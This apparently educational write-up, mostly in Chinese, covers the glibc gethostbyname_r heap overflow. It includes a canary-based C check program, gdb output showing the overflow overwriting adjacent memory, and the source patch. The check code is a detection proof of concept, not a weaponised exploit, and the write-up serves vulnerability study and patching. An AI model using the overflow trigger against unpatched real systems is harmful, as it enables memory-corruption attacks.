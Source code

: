 
验证代码：
```
#include <netdb.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <errno.h>

#define CANARY "in_the_coal_mine"
//$1 = {buffer = "buffer", '\0' <repeats 1017 times>, canary = "in_the_coal_mine"}
struct {
    char buffer[1024];
    char canary[sizeof(CANARY)];
} temp = { "buffer", CANARY };//这个是将temp赋值

int main(void) {
    struct hostent resbuf;
    struct hostent *result;
    int herrno;
    int retval;

    /*** strlen (name) = size_needed - sizeof (*host_addr) - sizeof (*h_addr_ptrs) - 1; ***/
    size_t len = sizeof(temp.buffer) - 16*sizeof(unsigned char) - 2*sizeof(char *) - 1;     //999 = 1024 -16*1 -2*4 -1   (char * 为指针，在32为中为4字节)
    char name[sizeof(temp.buffer)];//申请一个1024字节的char
    memset(name, '0', len);     // 向name前999字节复制'0'
    name[len] = '\0';           //第999字节为\0


    retval = gethostbyname_r(name, &resbuf, temp.buffer, sizeof(temp.buffer), &result, &herrno);//调用了这个有漏洞的方法,将name复制到buffer中

    if (strcmp(temp.canary, CANARY) != 0) {         //若canary中的值不等于in_the_coal_mine，则证明有漏洞
        puts("vulnerable");
        exit(EXIT_SUCCESS);
    }
    if (retval == ERANGE) {                         //若返回状态码为ERANGE(表示一个范围错误),则证明漏洞不存在
        puts("not vulnerable");
        exit(EXIT_SUCCESS);
    }
    puts("should not happen");
    exit(EXIT_FAILURE);
}
```
很明显是存在漏洞的。简单解释一下 PoC，在栈上布置一个区域 temp，由 buffer 和 canary 组成，然后初始化一个 name，最后执行函数 gethostbyname_r()，正常情况下，当把 name+*host_addr+*h_addr_ptrs+1 复制到 buffer 时，会正好覆盖缓冲区且没有溢出。然而，实际情况并不是这样。

验证：
```bash
gcc vunl.c
[root@localhost morty]# ./a.out 
vulnerable
```
在漏洞代码中，首先我们定义了CANARY, “in_the_coal_mine”，这是我们需要覆盖的目标，之后我们定义了结构体，它包含了两个chunks，这两个chunk将会被glibc的gethostbyname_r方法覆盖掉，替换成CANARY的值，第一个chunk叫buffer它的大小是1024字节，它将被gethostbyname_r方法的“buflen”参数溢出掉，紧跟着buffer chunk的是canary chunk，从buffer溢出的字节被放到了canary chunk中， Now that we have defined our struct representing the buffer for gethostname_r, the name char array is being initialized with 999 bytes of ASCII ‘0’ / HEX 0x30.

函数 gethostbyname_r() 在 include/netdb.h 中定义如下：
```
struct hostent {
    char  *h_name;            /* official name of host */
    char **h_aliases;         /* alias list */
    int    h_addrtype;        /* host address type */
    int    h_length;          /* length of address */
    char **h_addr_list;       /* list of addresses */
}
#define h_addr h_addr_list[0] /* for backward compatibility */

int gethostbyname_r(const char *name,
        struct hostent *ret, char *buf, size_t buflen,
        struct hostent **result, int *h_errnop);
```
- name：The name of the Internet host whose entry you want to find.
- ret：A pointer to a struct hostent where the function can store the host entry.
- buf：A pointer to a buffer that the function can use during the operation to store host database entries; buffer should be large enough to hold all of the data associated with the host entry. A 2K buffer is usually more than enough; a 256-byte buffer is safe in most cases.
- buflen：The length of the area pointed to by buffer.
- result：A pointer to a struct hostent where the function can store the host entry.
- h_errnop：A pointer to a location where the function can store an herrno value if an error occurs.
...
...
...
gdb开始调试
```shell
gdb -q a.out 
(gdb) b main
Breakpoint 1 at 0x80484b8: file vunl.c, line 21.
(gdb) set disassembly-flavor intel
(gdb) r
Starting program: /home/morty/a.out 

Breakpoint 1, main () at vunl.c:21
21	    size_t len = sizeof(temp.buffer) - 16*sizeof(unsigned char) - 2*sizeof(char *) - 1;
Missing separate debuginfos, use: debuginfo-install glibc.i686
(gdb) disass main
Dump of assembler code for function main:
0x080484a4 <main+0>:	lea    ecx,[esp+0x4]
0x080484a8 <main+4>:	and    esp,0xfffffff0
0x080484ab <main+7>:	push   DWORD PTR [ecx-0x4]
0x080484ae <main+10>:	push   ebp
0x080484af <main+11>:	mov    ebp,esp
0x080484b1 <main+13>:	push   ecx
0x080484b2 <main+14>:	sub    esp,0x454
0x080484b8 <main+20>:	mov    DWORD PTR [ebp-0x8],0x3e7
0x080484bf <main+27>:	mov    eax,DWORD PTR [ebp-0x8]
0x080484c2 <main+30>:	mov    DWORD PTR [esp+0x8],eax
0x080484c6 <main+34>:	mov    DWORD PTR [esp+0x4],0x30
0x080484ce <main+42>:	lea    eax,[ebp-0x428]
0x080484d4 <main+48>:	mov    DWORD PTR [esp],eax
0x080484d7 <main+51>:	call   0x8048388 <memset@plt>
0x080484dc <main+56>:	mov    eax,DWORD PTR [ebp-0x8]
0x080484df <main+59>:	mov    BYTE PTR [ebp+eax*1-0x428],0x0
0x080484e7 <main+67>:	lea    eax,[ebp-0x28]
0x080484ea <main+70>:	mov    DWORD PTR [esp+0x14],eax
0x080484ee <main+74>:	lea    eax,[ebp-0x24]
0x080484f1 <main+77>:	mov    DWORD PTR [esp+0x10],eax
0x080484f5 <main+81>:	mov    DWORD PTR [esp+0xc],0x400
0x080484fd <main+89>:	mov    DWORD PTR [esp+0x8],0x8049840
0x08048505 <main+97>:	lea    eax,[ebp-0x20]
0x08048508 <main+100>:	mov    DWORD PTR [esp+0x4],eax
0x0804850c <main+104>:	lea    eax,[ebp-0x428]
0x08048512 <main+110>:	mov    DWORD PTR [esp],eax
0x08048515 <main+113>:	call   0x80483a8 <gethostbyname_r@plt>
0x0804851a <main+118>:	mov    DWORD PTR [ebp-0xc],eax
0x0804851d <main+121>:	mov    DWORD PTR [esp+0x4],0x8048654
0x08048525 <main+129>:	mov    DWORD PTR [esp],0x8049c40
0x0804852c <main+136>:	call   0x80483c8 <strcmp@plt>
0x08048531 <main+141>:	test   eax,eax
0x08048533 <main+143>:	je     0x804854d <main+169>
0x08048535 <main+145>:	mov    DWORD PTR [esp],0x8048665
---Type <return> to continue, or q <return> to quit---

(gdb) b *main+113
Breakpoint 2 at 0x8048515: file vunl.c, line 26.
(gdb) c
Continuing.

Breakpoint 2, 0x08048515 in main () at vunl.c:26
26	    retval = gethostbyname_r(name, &resbuf, temp.buffer, sizeof(temp.buffer), &result, &herrno);
```

查看temp
```
(gdb) print temp
$1 = {buffer = "buffer", '\0' <repeats 1017 times>, canary = "in_the_coal_mine"}
(gdb) p &temp
$2 = (struct {...} *) 0x8049840

(gdb) x/1024s 0x8049840
0x8049840 <temp>:	 "buffer"
0x8049847 <temp+7>:	 ""
0x8049848 <temp+8>:	 ""
0x8049849 <temp+9>:	 ""
0x804984a <temp+10>:	 ""
0x804984b <temp+11>:	 ""
...
...
...
0x8049c3d <temp+1021>:	 ""
0x8049c3e <temp+1022>:	 ""
0x8049c3f <temp+1023>:	 ""
0x8049c40 <temp+1024>:	 "in_the_coal_mine"
0x8049c51:	 ""
0x8049c52:	 ""
0x8049c53:	 ""
0x8049c54 <completed.5699>:	 ""
0x8049c55:	 ""
```
我们的程序中temp有两个buffer:“buffer”和“canary”，buffer的内容包括buffer的名字“buffer”6 bytes+ 1017 bytes 的 ‘0’  + null terminating byte = 1024 bytes，CANARY的位置在0x8049c40，并且在temp结构体中，初始值为 “in_the_coal_mine”

现在我们再运行一行指令，使gethostbyname_r方法被调用，然后再查看temp struct
```
(gdb) ni
(gdb) x/3s 0x8049c40
0x8049c40 <temp+1024>:	 "000"
0x8049c44 <temp+1028>:	 "he_coal_mine"
0x8049c51:	 ""
```
我们看到CANARY的值被覆盖掉了

#### 打补丁
漏洞代码的位置在`nss/digits_dots.c`补丁的内容是给size_needed增加了4字节的空间
```
vi nss/digits_dots.c

From this:
  105:  size_needed = (sizeof (*host_addr)
		+ sizeof (*h_addr_ptrs) + strlen (name) + 1);

  277:  size_needed = (sizeof (*host_addr)
		+ sizeof (*h_addr_ptrs) + strlen (name) + 1);

To this:
  105:  size_needed = (sizeof (*host_addr)
		+ sizeof (*h_addr_ptrs) + strlen (name)
		+ sizeof (*h_alias_ptr) + 1);

  277:  size_needed = (sizeof (*host_addr)
		+ sizeof (*h_addr_ptrs) + strlen (name)
		+ sizeof (*h_alias_ptr) + 1);
```
This adds the 4 missed bytes that cause the overflow from the first chunk to the next chunk. Now if we add this to the calculation of the “size_t len” from the above PoC code, instead of 999 bytes the name char array buffer will be 995 and the overflow will not work.